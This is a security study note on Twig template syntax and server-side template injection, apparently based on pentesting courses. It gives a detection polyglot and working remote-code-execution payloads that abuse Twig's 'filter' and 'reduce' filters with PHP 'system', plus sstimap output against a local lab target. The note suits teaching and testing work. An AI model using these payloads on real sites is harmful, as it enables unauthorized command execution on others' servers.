# Twig

## Syntax

> _The content below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

PHP does not check data types, thus, treats strings as numbers. Both the examples below will be evaluated to `25`.

```twig
{{5*5}} 
{{5*'5'}}
```

A unique piece of Twig syntax is using `-` to trim whitespace.

```twig
{{-name-}}
```

A `for` loop.

```twig
{% for product in cart %}
Widget
	Price:	${{product.price}}
	Quanity: {{product.quantity}}
	Total: 	${{product.quantity * product.price}}
{% endfor %}
```

A `if` statement and the use of the `capitalize` filter.

```twig
<h1>{% if not admin %}sudo {% endif %}make me a sandwich, {{name|capitalize}}!</h1>
```

## SSTI

### filter

> _The example below is based on TCM's_ [_Practical Bug Bounty_](https://academy.tcm-sec.com/p/practical-bug-bounty) _course._

Following the methodology outlined [here](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#detection), we can see that we are dealing with a Twig engine (Figure 1).

```bash
# payload used
${{<%[%'"}}%\.
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_1.png" alt=""><figcaption><p>Figure 1: Using a polyglot to detecting the engine.</p></figcaption></figure>

We can also confirm that we are dealing with either a Twig or Jinja2 engine  by following the steps outlined [previously ](twig.md#manual)(Figure 2). Twig uses PHP which does not check the variable type and as a result it treats `7` and `'7'` the same.

```bash
# payloads used
{{7*7}} # 49
{{7*'7'}} # 49
```

<figure><img src="../../../.gitbook/assets/web_ssti_basic_1.png" alt=""><figcaption><p>Figure 2: Testing for SSTI.</p></figcaption></figure>

To make sure that this is indeed a server-side and not a client-side template injection, we can view the source code and check if the result is `49` or `{{7*'7'}}`.

```html
<div>
    <hr><h3>Your message:</h3>49                </div>
</div>
```

Next, we can try any Twig-specific payload from this [list](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md#twig), in this case leveraging the [`filter`](https://twig.symfony.com/doc/3.x/filters/filter.html) filter, and achieve RCE[^1] (Figure 3).

```bash
# payloads used
{{['id']|filter('system')}}
{{['pwd']|filter('system')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_twig_2.png" alt=""><figcaption><p>Figure 3: Achieving RCE via an SSTI vulnerability.</p></figcaption></figure>

The above process could be automated using [`sstimap`](https://github.com/vladko312/SSTImap).

{% code overflow="wrap" %}
```bash
$ sstimap.py -u "http://localhost:81/ssti0x01.php" --data 'greeting=*' --engine twig --method POST
<SNIP>

[*] Loaded plugins by categories: languages: 5; legacy_engines: 2; engines: 17; generic: 3
[*] Loaded request body types: 4

[*] Scanning url: http://localhost:81/ssti0x01.php
[*] Testing if Body parameter 'greeting' is injectable
[*] Twig plugin is testing rendering with tag '*'
[+] Twig plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Body parameter: greeting
  Engine: Twig
  Injection: *
  Context: text
  OS: Linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, php code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```
{% endcode %}

### reduce

> _The example below is based on OffSec's_ [_WEB-200_](https://www.offsec.com/courses/web-200/) _course._

Another filter we can leverage is the [`reduce`](https://twig.symfony.com/doc/3.x/filters/reduce.html) filter which takes an arrow function and an initial value as arguments (Figure 4).

```twig
{{[0]|reduce('var_dump','Hello')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_reduce_1.png" alt=""><figcaption><p>Figure 4: Testing the <code>reduce</code> filter.</p></figcaption></figure>

We can replace the arguments with something that executes system commands, such as PHP's [`system`](https://www.php.net/manual/en/function.system.php) function and achieve RCE (Figure 5).

```twig
{{[0]|reduce('system','whoami')}}
```

<figure><img src="../../../.gitbook/assets/web_ssti_reduce_2.png" alt=""><figcaption><p>Figure 5: Leveraging the <code>reduce</code> filter to achieve RCE.</p></figcaption></figure>

[^1]: Remote Code Execution

